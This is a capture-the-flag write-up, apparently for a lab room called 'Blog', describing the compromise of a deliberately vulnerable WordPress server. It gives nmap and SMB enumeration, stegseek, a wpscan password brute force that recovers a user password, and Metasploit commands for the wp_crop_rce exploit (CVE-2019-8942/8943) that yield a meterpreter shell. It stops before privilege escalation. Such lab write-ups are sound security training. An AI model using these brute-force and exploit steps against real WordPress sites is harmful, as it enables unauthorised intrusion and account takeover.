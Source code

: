 # Blog
Billy Joel made a Wordpress blog!

## Resolution

From the name and description of the room, we know that we're dealing with a wordpress application. Nevertheless, we scan for all running services on the machine.

```
$ sudo nmap -sV -sC <ip_addr> -Pn -n --disable-arp-ping

<...snip...>
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: blog.thm, BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-02-24T17:39:32
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-02-24T17:39:33+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

```

Exposed services are: an ssh agent, a web app running the wordpress blog, and an SMB server. The information on the running SMB service revealed by the default nmap scripts may be useful in the future.

Examining the blog's home page (mom's note and comments), it looks like Joel is a not experimented with Wordpress and most likely default configurations are still there. Additionally, we know that Wordpress login is vulnerable to brute force attacks.

To validate this idea, we go to the login page (accessible from the "Log in" button in the bottom of the page or alternatively at `http://blog.thm/wp-login.php`). We enter whatever credentials there (e.g. admin admin), the response is an "invalid username" error message.
Notice that when we hover (or click) on a user, we are able to get their username where the redirection link of a user's page is of the form `http://blog.thm/author/<username>`.
The username of Billy Joel is `bjoel`.
Entering the username in the login page confirms the ability to brute force the login.

I tried to brute foce using `hydra` and the rockyou wordlist but it didn't work out so I started thinking of other possibilities.

Let's connect to the SMB server and see if we can get any useful information:
```
# List available shares on the server
$ smbclient -U guest -L <ip_addr>

Password for [WORKGROUP\guest]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BLOG
```
```
# Connect to BillySMB share
$ smbclient -U guest \\\\BLOG\\BillySMB
   
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 18:17:05 2020
  ..                                  D        0  Tue May 26 17:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 18:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 18:13:45 2020
  check-this.png                      N     3082  Tue May 26 18:13:43 2020

                15413192 blocks of size 1024. 9790352 blocks available
```

There is an interesting file called `check-this.png`, we can download it using the `get` command:
```
smb: \> get check-this.png

getting file \check-this.png of size 3082 as check-this.png (18.2 KiloBytes/sec) (average 18.2 KiloBytes/sec)
```

The picture contais a QR code, which leads to a YouTube music video of Billy Joel (Just discovered this is a name of a famous musician).

Checking the other files might lead somewhere.

```
$ stegseek Alice-White-Rabbit.jpg   
                      
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "rabbit_hole.txt".
[i] Extracting to "Alice-White-Rabbit.jpg.out".

$ cat Alice-White-Rabbit.jpg.out

You've found yourself in a rabbit hole, friend.
```

Nothing useful. Straight into the rabbit hole :/

Back to our wordpress application, I started looking for common vulnerabilities of that specific version and also why `hydra` was giving wrong passwords as a match. Long story short, `hydra` is not always a good option (not in this case), and we shuldn't depend 100% on it. Additionaly, this wordpress version presents a path traversal vulnerability (CVE-2019-8943, CVE-2019-8942) that can be exploited using Metasploit once we have the credentials of a user of at least an author privilege.

We have only two users in the blog. This can be verified by navigating to:
```
http://blog.thm/wp-json/wp/v2/users
```

Let's try and brute force login passwords of bjoel and kwheel but this time using `wpscan` (a wordpress security scanner). We are able to find the password of kwheel:
```
$ wpscan --url blog.thm -P /usr/share/wordlists/rockyou.txt -U "kwheel"

<...snip...>
[+] Performing password attack on Xmlrpc against 1 user/s
Trying kwheel / morgan1 Time: 00:01:03 <                       > (2125 / 14344392)  0.01%  ETA: ??:??:??
[SUCCESS] - kwheel / cutiepie1                                                                
<...snip...>
```

Now we move to metasploit for further exploitation.
```
msf6 > use exploit/multi/http/wp_crop_rce

msf6 exploit(multi/http/wp_crop_rce) > set username kwheel

msf6 exploit(multi/http/wp_crop_rce) > set password cutipie1

msf6 exploit(multi/http/wp_crop_rce) > set rhosts blog.thm

msf6 exploit(multi/http/wp_crop_rce) > set lhost <your_ip>

msf6 exploit(multi/http/wp_crop_rce) > exploit

```

Got access to the machine and now we gotta look for the files.
First thing, we check the users on the machine. We find a `user.txt` file in bjoel home directory, but:
```
meterpreter > cat home/bjoel/user.txt

You won't find what you're looking for here.
TRY HARDER
```

For the user flag, I made use of the hint which is of the format `/*****/***`. There is one unique path of that format on the machine which is `/media/usb`. And this was the right answer.

To Access the content of that folder, we need higher priviliges.

TBC


